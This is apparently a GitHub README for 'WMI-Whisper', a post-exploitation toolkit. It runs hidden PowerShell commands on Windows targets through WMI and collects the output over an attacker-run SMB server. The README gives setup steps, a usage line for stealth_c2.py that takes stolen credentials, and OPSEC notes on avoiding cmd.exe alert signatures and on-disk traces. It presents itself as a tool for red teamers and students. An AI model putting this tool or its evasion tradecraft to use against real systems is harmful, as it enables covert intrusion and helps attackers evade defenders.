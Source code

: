 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)

---

## 🧰 Requirements

- Python 3.8+
- Impacket (install from source or `pip`)
- Outbound SMB access (port 445) to your C2 box
- Valid credentials on the target system

---

## ⚙️ Setup

```bash
# Install system deps
sudo apt install python3 python3-pip -y

# Clone & install impacket
git clone https://github.com/fortra/impacket
cd impacket
pip install .
```

---

## 🚀 Usage

```bash
python3 stealth_c2.py <TARGET> <USERNAME> <PASSWORD> --domain <DOMAIN> --lhost <YOUR_IP>
```

| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET   | Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts





















